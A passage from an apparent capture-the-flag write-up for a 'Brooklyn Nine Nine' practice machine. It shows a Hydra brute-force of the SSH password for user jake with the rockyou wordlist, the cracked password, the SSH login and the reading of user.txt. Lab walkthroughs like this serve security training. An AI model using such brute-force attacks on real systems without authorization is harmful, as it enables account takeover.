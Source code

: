 ```
----------- StillNoob was here ------------------
```

Nothing :/... 

## Gaining Access
We got a username before and SSH port is open. Let's bruteforce Jake's password.

```bash
$ hydra -l jake -P /usr/share/wordlists/rockyou.txt  -t 16 -u 10.10.20.214 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-19 05:45:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.20.214:22/
[22][ssh] host: 10.10.20.214   login: jake   password: 987654321
```

Let's SSH with user `jake`.

```bash
$ ssh jake@10.10.20.214             
The authenticity of host '10.10.20.214 (10.10.20.214)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.20.214' (ECDSA) to the list of known hosts.
jake@10.10.20.214's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$
```

user.txt:

```bash
jake@brookly_nine_nine:/home$ ls -la
total 20
drwxr-xr-x  5 root root 4096 May 18  2020 .
drwxr-xr-x 24 root root 4096 May 19  2020 ..
drwxr-xr-x  5 amy  amy  4096 May 18  2020 amy
drwxr-xr-x  6 holt holt 4096 May 26  2020 holt
drwxr-xr-x  6 jake jake 4096 May 26  2020 jake
jake@brookly_nine_nine:/home$ cd holt
jake@brookly_nine_nine:/home/holt$ ls -la
total 48
drwxr-xr-x 6 holt holt 4096 May 26  2020 .
drwxr-xr-x 5 root root 4096 May 18  2020 ..
-rw------- 1 holt holt   18 May 26  2020 .bash_history
-rw-r--r-- 1 holt holt  220 May 17  2020 .bash_logout
-rw-r--r-- 1 holt holt 3771 May 17  2020 .bashrc
drwx------ 2 holt holt 4096 May 18  2020 .cache
drwx------ 3 holt holt 4096 May 18  2020 .gnupg
drwxrwxr-x 3 holt holt 4096 May 17  2020 .local
-rw-r--r-- 1 holt holt  807 May 17  2020 .profile
drwx------ 2 holt holt 4096 May 18  2020 .ssh
-rw------- 1 root root  110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt   33 May 17  2020 user.txt
jake@brookly_nine_nine:/home/holt$ cat user.txt
REDACTED
```

